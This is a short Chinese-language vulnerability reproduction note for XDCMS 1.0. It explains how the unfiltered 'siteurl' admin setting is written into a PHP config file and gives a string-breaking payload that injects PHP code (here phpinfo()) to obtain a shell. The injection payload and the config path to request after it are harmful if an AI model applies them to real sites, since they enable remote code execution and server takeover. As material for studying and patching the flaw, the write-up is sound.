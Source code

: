 ```yaml
---
title: XDCMS 1.0 后台配置文件getshell
id: zhfly3279
---
```


# XDCMS 1.0 后台配置文件getshell

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

![image](../img/3988f8dd1cc9fd1956bf8557fbccccfe.png)

刚看到这里的时候，这里的网站地址:`http://127.0.0.5`我很好奇是干嘛的，因为它现在写的是127.0.0.5而网站的ip与这个无关，去翻翻源码看看这玩意是干嘛的

```
if($tag=='config'){
    //判断url是否以/结尾
    $urlnum=strlen($info['siteurl'])-1;
    if(substr($info['siteurl'],$urlnum,1)!="/"){
        showmsg(C("update_url_error"),"-1");
    }//end

```
$cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
$cmsurl="&lt;?phpn define('CMS_URL','".$info['siteurl']."');n define('TP_FOLDER','".$info['template']."');n define('TP_CACHE',".$info['caching'].");n?&gt;";
creat_inc($cms,$cmsurl); 
``` 
```

点击保存后，网站获取siteurl没有经过过滤，就拼接到cmsurl字符串变量里去了，然后根据这个cmsurl生成配置文件

配置文件：

```
<?php
 define('CMS_URL','http://127.0.0.5/');
 define('TP_FOLDER','dccms');
 define('TP_CACHE',false);
?> 
```

这里我们可以构造siteurl：

```
hello');?><?php phpinfo();?> 
```

点击保存后，我们去查看一下该配置文件：

```
<?php
 define('CMS_URL','hello');?><?php phpinfo();?>';
 define('TP_FOLDER','dccms');
 define('TP_CACHE',false);
?> 
```

这里的配置文件内容生成外部参数可控，导致了可直接getshell

访问该配置文件页面：`http://www.0-sec.org/system/xdcms.inc.php`

![image](../img/e4baad37300c171b6c8e86e50c4d094d.png)
